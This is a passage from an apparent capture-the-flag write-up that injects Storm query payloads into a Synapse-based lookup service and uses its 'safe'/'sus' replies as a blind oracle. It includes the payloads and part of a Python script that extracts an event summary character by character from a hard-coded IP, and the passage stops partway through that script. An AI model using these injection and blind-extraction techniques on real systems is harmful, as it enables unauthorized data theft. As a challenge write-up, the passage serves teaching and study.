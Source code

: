 On the other hand, the IP `9.9.9.8` doesn't exist in our local database, so the following lookup will return "safe".

```
00000* | inet:ipv4=9.9.9.8 #aaaa
```

![](img/lookup-2.png)

We now have a way to execute arbitrary Storm commands, and also found an oracle to test if there's a node in the database that satisfies our given condition, just like in a blind SQL injection!

## Exfiltrating the event summary

The goal now is to get the value of `meta:event:summary`, and that's where things got tough for me.

### My inefficient solution

I immediately got the idea of exfiltrating the event summary character by character, using the same method you would use for a blind SQL injection. However, an operator that only matches part of the string similar to `LIKE` or `SUBSTR` in SQL is needed, and after reading through the Synapse documentation, I found and used the [filter by regex](https://synapse.docs.vertex.link/en/latest/synapse/userguides/storm_ref_filter.html#filter-by-regular-expression) operator `~=`.

For example, the following lookup will return "sus" only if the event summary begins with the character `a`, and we will try this for every ASCII printable character to determine the first character, then the second one... until we get the full value.

```
00000* | meta:event:summary ~= "^a" #aaa
```

Here's the solve script I ended up using. Note that since the summary is very long, the 128 character limit will be reached a few times and you will need to truncate the summary and restart the script if you decide to try it out entirely. 

```python
import requests
import string

s = requests.Session()
base_url = 'http://157.230.188.90'

r = s.post(f'{base_url}/login', {
    'username': 'a',
    'password': 'a'
})

summary = ''
alphabet =  [' ', '\\n'] + ['\\' + c for c in ',":=$()[]{}'] + list(string.ascii_letters + string.digits) + ['\\S', '\\s']

while True:

    for guess in alphabet:

        query = f'00000* | meta:event:summary ~= "^{summary + guess}" #'.ljust(128, 'a')

```